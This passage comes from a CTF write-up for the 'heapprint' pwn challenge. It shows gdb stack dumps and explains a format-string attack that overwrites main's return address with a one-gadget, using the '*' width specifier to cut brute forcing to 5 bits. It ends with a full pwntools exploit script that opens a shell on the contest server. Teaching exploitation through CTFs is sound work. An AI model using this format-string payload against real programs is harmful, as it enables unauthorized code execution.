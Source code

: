 ```bash
0008| 0x7fffffffda68 --> 0x68a91f9995c84b00 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaa0000da78 
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaa0000da78 

0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaa0000da78 

gdb-peda$ telescope 0x7fffffffdf44
0000| 0x7fffffffdf44 ("./heapprint")
0008| 0x7fffffffdf4c --> 0x4956594d00746e69 ('int')

```

Wow, we successfully changed the return value of main!!! It seems that when snprintf processes the format with `$` and those without `$` independently. If you want more details, RTFSC.

But we don't know the address of libc, so if we want to change the return address to be one gadget, we need to brute force 12 bit, plus 4 bit to guess the stack ,we have to brute force 16 bits!

Luckily, we don't need to. In format-string processing, we have a special symbol `*`. What's its usage? Ask google.

With all these combined, we can get shell by bruteforce 5 bits, which is totally acceptable.


### The Final Script

```python
from pwn import *

remote_addr="pwn.suctf.asuri.org"
remote_port=20000

p=remote(remote_addr,remote_port)

offset=int(p.recvline().strip('\n'))
offset=(offset<<8)+0x18
offset2=0xd0917
payload='%c'*7+'%'+str(offset-7)+'d%hn'+'%c'*23+'%'+str(offset2-offset-23)+'d%*7$d%n'
p.sendline(payload)
p.interactive()

```


## Conclusion

It is a little pity that nobody solves the challenge `heapprint`. But what we learned is what matters. So hope you guys enjoy the challenges I make. Feel free to contact me if you have any question.






